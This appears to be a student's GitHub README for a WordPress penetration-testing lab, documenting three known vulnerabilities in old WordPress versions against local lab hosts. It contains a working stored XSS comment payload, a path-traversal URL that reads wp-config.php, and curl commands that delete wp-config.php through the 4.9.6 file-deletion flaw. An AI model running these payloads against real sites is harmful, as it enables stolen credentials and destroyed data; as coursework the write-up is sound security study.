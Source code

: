 # Project 7 - WordPress Pentesting

Time spent: **27+** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - <a href="https://www.exploit-db.com/exploits/36844/" target="_blank">Detailed description</a>
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
    ![GIF Walkthrough](./img/1.gif)
  - [ ] Steps to recreate: 
     - From the main page click on the post with open comments section
     - Scroll to the comment form and fill the fields
        - In the comment content field paste (the comment has to be at least 64kb long): 
            ```html
                <a title='x onmouseover=alert(unescape(/hello%20world/.source)) 
                style=position:absolute;left:0;top:0;width:5000px;height:5000px  
                AAAAA...[64kb]..AAA'></a>
            ```
    - Post it and get approval from the admin
    - Visit the page with your comment posted
  - [ ] Affected source code:
    - [tags/4.9.8/src/wp-includes/comment.php](https://core.trac.wordpress.org/browser/tags/4.9.8/src/wp-includes/comment.php#L0)

2. Wordpress CodeArt Google MP3 Player plugin - File Disclosure Download
  - [ ] Summary: 
    - Vulnerability types: IDOR
    - <a href="https://www.exploit-db.com/exploits/35460/" target="_blank">Detailed description</a>
    - Tested in version: 4.9.6
    - Fixed in version: N/A
    - Plugin version: <a href="./plugins_repo/google-mp3-audio-player.zip" target="_blank">1.0.11</a>
    - Plugin fixed version: plugin deleted from wordpress repository
    - ![GIF Walkthrough](./img/2.gif)
  - [ ] Steps to recreate: 
     - Install the <a href="./plugins_repo/google-mp3-audio-player.zip" target="_blank">plugin</a>
     - Unauthenticated user can follow this URL [http://wpdistillery.vm/wp-content/plugins/google-mp3-audio-player/direct_download.php?file=../../../wp-config.php](http://wpdistillery.vm/wp-content/plugins/google-mp3-audio-player/direct_download.php?file=../../../wp-config.php) and access config file with authentication unique keys and salts.
  - [ ] Affected source code:
    - [wp-content/plugins/google-mp3-audio-player/direct_download.php](https://github.com/cpom/encoremtl/blob/master/wp-content/plugins/google-mp3-audio-player/direct_download.php)

3. Wordpress <= 4.9.6 Arbitrary File Deletion Vulnerability Exploit
  - [ ] Summary: 
    - Vulnerability types: CSRF
    - <a href="https://blog.vulnspy.com/2018/06/27/Wordpress-4-9-6-Arbitrary-File-Delection-Vulnerbility-Exploit/" target="_blank">Detailed description</a>
    - Tested in version: 4.9.6
    - Fixed in version: 4.9.7
    - ![GIF Walkthrough](./img/3.gif)
  - [ ] Steps to recreate: 
     - Login to an account that has an Author role
     - Add an image to library
     - Click on "Edit more details"
     - In the HTML source find a hidden input with an id "_wpnonce" and copy it's value
     - Paste the value in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=' -H '' -d 'action=editattachment&_wpnonce=***&thumb=../../../../wp-config.php'```
     - Copy the cookies from Burp and paste them after -H attribute
     - Paste the post number in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=***' -H '' -d 'action=editattachment&_wpnonce=[value]&thumb=../../../../wp-config.php'```
     - Run the script in terminal. Example: 
        ```bash
        curl -v 'http://192.168.33.10/wp-admin/post.php?post=7' -H 'Cookie: wordpress_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C225af4c695d4f835e54fa9f089c45b2d3752c7cdf8c6299fdc76a7766fa8b7c0; wp-saving-post=9-saved; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C249a43e337bbe999d6de5357461362d2ef7e951c79d94c61a198d1ffd3b3536a; wp-settings-time-2=1540704911; wp-settings-2=libraryContent%3Dbrowse' -d 'action=editattachment&_wpnonce=8162d5bb40&thumb=../../../../wp-config.php'
        ```
     - Copy "_wpnonce" value from the link with "submitdelete deletion" class
     - Paste the value in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=' -H '' -d 'action=delete&_wpnonce=***'```
     - Paste the post number in place of \*\*\* characters ```curl -v 'http://192.168.33.10/wp-admin/post.php?post=***' -H '' -d 'action=delete&_wpnonce=[value]'```
     - Copy the cookies from Burp and paste them after -H attribute
     - Run the script in terminal. Example: 
        ```bash
        curl -v 'http://192.168.33.10/wp-admin/post.php?post=7' -H 'Cookie: wordpress_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C225af4c695d4f835e54fa9f089c45b2d3752c7cdf8c6299fdc76a7766fa8b7c0; wp-saving-post=9-saved; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_4eeeccf202d6f9157cf690a61cb703b4=user%7C1540881267%7CoKkA6mxsCMlGceVhKT52166I5WM397UZanL7eXiBidA%7C249a43e337bbe999d6de5357461362d2ef7e951c79d94c61a198d1ffd3b3536a; wp-settings-time-2=1540704911; wp-settings-2=libraryContent%3Dbrowse' -d 'action=delete&_wpnonce=17b7da78d8'
        ```
     - Refresh wp-admin page

  - [ ] Affected source code:
    - [/tags/4.9.6/src/wp-admin/includes/ajax-actions.php](https://core.trac.wordpress.org/browser/tags/4.9.6/src/wp-admin/includes/ajax-actions.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

It was hard to find any exploits that actually work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
